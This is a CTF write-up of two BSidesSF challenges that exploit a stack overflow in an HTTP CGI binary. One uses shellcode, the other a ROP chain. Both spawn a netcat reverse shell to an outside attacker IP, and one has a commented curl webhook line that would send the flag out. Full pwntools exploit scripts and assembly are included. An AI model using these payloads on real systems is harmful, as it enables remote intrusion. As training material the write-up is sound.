

# BSidesSF CTF


Participated under the banner of <mark style="color:blue;">**HCS**</mark>, ranked <mark style="color:yellow;">14</mark> out of <mark style="color:yellow;">583</mark> teams.


<table><thead><tr><th width="206">Challenge</th><th width="309">Category</th><th width="124" align="center">Points</th><th align="center">Solves</th></tr></thead><tbody><tr><td>Can't Give In</td><td>Binary Exploitation</td><td align="center">494 pts</td><td align="center">31</td></tr><tr><td>Can't Give In (secure)</td><td>Binary Exploitation, Web Exploitation</td><td align="center">775 pts</td><td align="center">21</td></tr></tbody></table>

## Can't Give In

### Description

> Can you get a shell?
>
> _Note: the binary should have an executable stack and minimal hardening, the goal is RCE_
>
> Author: ron
>
> [http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080](http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/)

### Analysis

unlike the usual PWN challenges, instead of giving a connection string through tcp or netcat, we're given a link to HTTP.&#x20;

<figure><figcaption></figcaption></figure>

visiting the website, it seems to be a static one as shown below

<figure><figcaption></figcaption></figure>

presented with a password form, I tried to submit it with a gibberish input, and got the response as shown below

<figure><figcaption></figcaption></figure>

we can see what is being sent through by capturing the request in BurpSuite

<figure><figcaption></figcaption></figure>

on the CTF platform, they gave us a binary called _**auth.cgi**_ which seems to be what is handling our input indicated by the endpoint of our request, let's see what it is&#x20;

```bash
└──╼ [★]$ file auth.cgi 

auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=c0053266aea9379cfe6a46dee6f69fb9c721f69e, for GNU/Linux 3.2.0, with debug_info, not stripped
└──╼ [★]$ pwn checksec auth.cgi 
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

it's missing every security mechanism (I have no idea why it says there's canary, but there's actually none), the binary itself is very simple with only a main function&#x20;

```c
undefined8 main(void)

{
  int fd;
  size_t __nbytes;
  char buffer [132];
  int ENV_LENGTH;
  char *local_20;
  
  puts("Content-Type: text/plain\r");
  puts("\r");
  fflush((FILE *)stdout);
  local_20 = getenv("CONTENT_LENGTH");
  if (local_20 == (char *)0x0) {
    printf("ERROR: Please send data!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  ENV_LENGTH = atoi(local_20);
  __nbytes = (size_t)ENV_LENGTH;
  fd = fileno((FILE *)stdin);
  read(fd,buffer,__nbytes);
  fd = strcmp(buffer,"password=MyCoolerPassword");
  if (fd == 0) {
    printf("SUCCESS: authenticated successfully!");
  }
  else {
    printf("ERROR: Login failed!");
  }
  return 0;
}
```

the vulnerability lies quite clear as the length of `read()` is within our control and can be used to overflow the stack.

I've interacted with this kind of challenge before where the binary exploitation is through the HTTP medium in [Tenable CTF 2023](../2023/tenable-ctf/braggart.md), I will use roughly the same script to setup my local debugging environment.

in short we can with pwntools, we can provide an additional environment variables upon summoning the process binary as follows:

```python
env = {'CONTENT_LENGTH': f'{len(payload)}',}
process([exe] + argv, env=env)
```

this will be handy since the binary is taking the read size through the process environment variables.

otherwise if we wish to send the payload to the remote server, we can use python's `requests` library, and the `CONTENT_LENGTH` will be automatically handled for us.

```python
import requests
res = requests.post(URL, data=payload)
```

### Exploitation

to gain RCE the usual `system("/bin/sh")` or `execve("/bin/sh", NULL, NULL)` won't work. we don't establish a two way persistent communication using socks or other way.&#x20;

Not to say though I'm not sure on this, there might be a change that our input is handled by a different application and forwarded to the actual challenge binary, spawning a shell would just mean spawning it in the server's local process with no actual communication is happening to us.

so the goal is to execute a Reverse Shell which is different and can be visualized with the picture below


Note: I'am aware that this is not 100% correct, but I think it serve enough purpose to understand what's going on given the current context


<figure><figcaption></figcaption></figure>

there's many reverse shell payload out there, but since we're able to execute shellcode with no restriction, I just took one from the link below



next is to find a gadget that would execute our shellcode within the stack, since the binary is statically compiled, we have tons of options though one that crossed my first though: `jmp rsp` is not to be found.

<figure><figcaption></figcaption></figure>

however we do have `call rsp` which in practice, does the same thing

<figure><figcaption></figcaption></figure>

next, we need for our machine to listen for connection and send the shellcode against the remote server&#x20;

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *
import requests
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
VICTIM = 'http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/cgi-bin/auth.cgi'
# webhook = 'https://webhook.site/377ce48d-b5a1-45ae-ac52-b034cb0c8118'
ATTACKER = '159.223.33.240'

def initialize(env, argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, env=env)
    else:
        return process([exe] + argv, env=env)

gdbscript = '''
init-pwndbg
break *0x040175d
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file auth.cgi 
# auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=c0053266aea9379cfe6a46dee6f69fb9c721f69e, for GNU/Linux 3.2.0, with debug_info, not stripped
# └──╼ [★]$ pwn checksec auth.cgi 
#     Arch:     amd64-64-little
#     RELRO:    No RELRO
#     Stack:    Canary found
#     NX:       NX unknown - GNU_STACK missing
#     PIE:      No PIE (0x400000)
#     Stack:    Executable
#     RWX:      Has RWX segments

def craft_payload() -> bytes:
    # cmd = f'curl {webhook}?flag=${{cat flag.txt}}'.encode()

    with open('shellcode.asm', 'r') as f:
        data = f.read()
        with open('tmp.asm', 'w') as t:
            # https://shell-storm.org/shellcode/files/shellcode-823.html
            t.write(data.replace('ATTACKER', ATTACKER))

    run("nasm -f bin tmp.asm -o shellcode.bin", shell=True, check=True)
    shellcode = open("shellcode.bin", "rb").read()

    payload = b''
    payload += cyclic(168)
    payload += p64(0x04127ca)   # call rsp
    payload += flat(shellcode)

    return payload

def debug_local():
    global io

    payload = craft_payload()
    env = {'CONTENT_LENGTH': f'{len(payload)}',}
    io = initialize(env=env)

    sleep(0.2)
    io.send(payload)

    io.interactive()
    
def exploit_remote():
    proxies = {'http': 'http://127.0.0.1:8080'}
    # res = requests.post(URL, proxies=proxies, data=craft_payload()) # burp debug
    res = requests.post(VICTIM, data=craft_payload())

    log.info("Status code: %d", res.status_code)
    log.info("Response: %s", res.text)

if __name__ == '__main__':
    if args.REMOTE:
        exploit_remote()
    else:
        debug_local()
```



```asm6502
    BITS 64
    DEFAULT REL

    section .text
    global _start

_start:
    xor    	rdx,rdx
    mov 	rdi,0x636e2f6e69622fff
    shr	rdi,0x08
    push 	rdi
    mov 	rdi,rsp

    mov	rcx,0x68732f6e69622fff
    shr	rcx,0x08
    push 	rcx
    mov	rcx,rsp

    mov     rbx,0x652dffffffffffff
    shr	rbx,0x30
    push	rbx
    mov	rbx,rsp

    mov	r10,0x37333331ffffffff
    shr 	r10,0x20
    push 	r10
    mov	r10,rsp

    jmp short ip
    continue:
    pop 	r9

    push	rdx  ;push NULL
    push 	rcx  ;push address of 'bin/sh'
    push	rbx  ;push address of '-e'
    push	r10  ;push address of '1337'
    push	r9   ;push address of 'ip'
    push 	rdi  ;push address of '/bin/nc'

    mov    	rsi,rsp
    mov    	al,59
    syscall

ip:
	call  continue
	db "ATTACKER"
```



Flag: _CTF{certified-genuine-instructions}_


## Can't Give In (secure)

### Description

> Can you get a shell?
>
> _Note: this is similar to cant-give-in, but the stack is no longer executable_
>
> Flag is located in: `/home/ctf/flag.txt`
>
> Author: ron
>
> [http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080](http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/)

### Binary Analysis

the binary and overall environment is the same as the previous challenge, however one thing different is that this time the binary has NX enabled

```bash
└──╼ [★]$ file auth.cgi 
auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0519198742c4cfaf17998361e320132e208492c0, for GNU/Linux 3.2.0, with debug_info, not stripped

└──╼ [★]$ pwn checksec auth.cgi 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploitation

the idea is still the same, however the execution is different, instead of shellcoding, we will ROP instead.&#x20;

what the above shellcode does is equivalent to the following command in linux terminal:

```bash
/bin/nc /bin/nc <attacker_ip> 1337 -e /bin/sh
```


the port used by the shellcode I linked above uses 1337 while what I used in this challenge is 9001


this would quite be trivial or easy to do if we have `system()` as we just pass the string to it. However the static binary doesn't have that symbol. Instead we have to manually craft it into `execve()`

according to the manual `execve()` takes 3 parameters&#x20;

<figure><figcaption></figcaption></figure>

I would however, retype it as `execve(char *, char *[], char *[])` to make it more intuitive as it is a pointer to an array containing the parameters or environment variables you wish to pass to the executable.

which means to execute the reverse shell payload, we would need to prepare our arguments such that when calling it would be:&#x20;

```c
execve("/bin/nc" , {"/bin/nc","ip","9001","-e","/bin/sh"}, {})
```

<figure><figcaption></figcaption></figure>

for this, we would need a writeable address, since the binary has no PIE, I decided to use the `.bss` section to write our arguments.&#x20;

to write we will use this gadget with _**rsi**_ as _**where**_ to write and _**rdx**_ as _**what**_ to write:

```wasm
mov qword ptr [rsi], rdx ; ret
```

and to control those values we have these popsicles:

```wasm
pop rax ; pop rdx ; pop rbx ; ret 
pop rdx ; pop rbx ; ret
pop rsi ; ret
pop rdi ; ret 
```

since we'll we writing a lot values, I've write this function to simplify things

```python
def mov(where, what):
    return flat([
        POP_RDX_RBX,
        what,
        0x0,
        POP_RSI,
        where,
        MOV_RDX_TO_PTR_RSI
    ])
```

first, lets write the strings into the binary

```python
mov(BSS, 0x68732f6e69622f),         # /bin/sh
mov(BSS + 8, 0x636e2f6e69622f),     # /bin/nc
mov(BSS + 16, 0x652d),              # -e
mov(BSS + 24, 0x31303039),          # '9001'
mov(BSS + 32, 0x2e3834322e343031),  # 104.248.153.73
mov(BSS + 40, 0x33372e333531),
```

next, we will create an array that will contain form the arguments and contains a pointer to one of the strings above

```python
# {"/bin/nc","ip","1337","-e","/bin/sh"}
mov(BSS + 48, BSS + 8),     # /bin/nc
mov(BSS + 56, BSS + 32),    # ip
mov(BSS + 64, BSS + 24),    # 9001
mov(BSS + 72, BSS + 16),    # -e
mov(BSS + 80, BSS),         # /bin/sh
mov(BSS + 88, 0x0),         # NULL (terminate array)
```

so, our argv is at the address of `BSS + 48`

then we'll just have to set the parameters into `execve()`

```python
POP_RDI,
BSS + 8,
POP_RSI, 
BSS + 48,
POP_RAX_RDX_RBX,
0x3b,
0x0,
0x0,

SYSCALL,
```

all correct and set, launch it against the remote server

<figure><figcaption></figcaption></figure>

Below is the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *
import requests
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
VICTIM = 'http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/cgi-bin/auth.cgi'

def initialize(env, argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, env=env)
    else:
        return process([exe] + argv, env=env)

gdbscript = '''
init-pwndbg
break *0x040175d
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file auth.cgi 
# auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0519198742c4cfaf17998361e320132e208492c0, for GNU/Linux 3.2.0, with debug_info, not stripped
# └──╼ [★]$ pwn checksec auth.cgi 
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)

# mov gadgets:
# mov qword ptr [rdi + rsi*8], rdx ; ret
# mov qword ptr [rdi], rcx ; ret
# mov qword ptr [rsi], rdx ; ret

MOV_RDX_TO_PTR_RSI = 0x046b482  # mov qword ptr [rsi], rdx ; ret
POP_RDX_RBX = 0x04696d7         # pop rdx ; pop rbx ; ret
POP_RAX_RDX_RBX = 0x04696d6     # pop rax ; pop rdx ; pop rbx ; ret 
POP_RSI = 0x040f782             # pop rsi ; ret
POP_RDI = 0x0401d90             # pop rdi ; ret 
SYSCALL = 0x04011a2             # syscall
BSS = elf.bss()

def mov(where, what):
    return flat([
        POP_RDX_RBX,
        what,
        0x0,
        POP_RSI,
        where,
        MOV_RDX_TO_PTR_RSI
    ])

def craft_payload() -> bytes:
    offset = 168
    payload = flat({
        offset: [
            mov(BSS, 0x68732f6e69622f),         # /bin/sh
            mov(BSS + 8, 0x636e2f6e69622f),     # /bin/nc
            mov(BSS + 16, 0x652d),              # -e
            mov(BSS + 24, 0x31303039),          # '9001'
            # mov(BSS + 32, 0x2e302e302e373231),  # 127.0.0.1
            # mov(BSS + 40, 0x31),
            mov(BSS + 32, 0x2e3834322e343031),      # 104.248.153.73
            mov(BSS + 40, 0x33372e333531),

            # {"/bin/nc","ip","1337","-e","/bin/sh"}
            mov(BSS + 48, BSS + 8),     # /bin/nc
            mov(BSS + 56, BSS + 32),    # ip
            mov(BSS + 64, BSS + 24),    # 9001
            mov(BSS + 72, BSS + 16),    # -e
            mov(BSS + 80, BSS),         # /bin/sh
            mov(BSS + 88, 0x0),         # NULL (terminate array)

            POP_RDI,
            BSS + 8,
            POP_RSI, 
            BSS + 48,
            POP_RAX_RDX_RBX,
            0x3b,
            0x0,
            0x0,

            SYSCALL,
        ]
    })
    
    return payload

def debug_local():
    global io

    payload = craft_payload()
    env = {'CONTENT_LENGTH': f'{len(payload)}',}
    io = initialize(env=env)

    sleep(0.2)
    io.send(payload)

    io.interactive()
    
def exploit_remote():
    proxies = {'http': 'http://127.0.0.1:8080'}
    # res = requests.post(URL, proxies=proxies, data=craft_payload()) # burp debug
    res = requests.post(VICTIM, data=craft_payload())

    log.info("Status code: %d", res.status_code)
    log.info("Response: %s", res.text)

if __name__ == '__main__':
    if args.REMOTE:
        exploit_remote()
    else:
        debug_local()
```



Flag: _CTF{computational-genius-institute}_

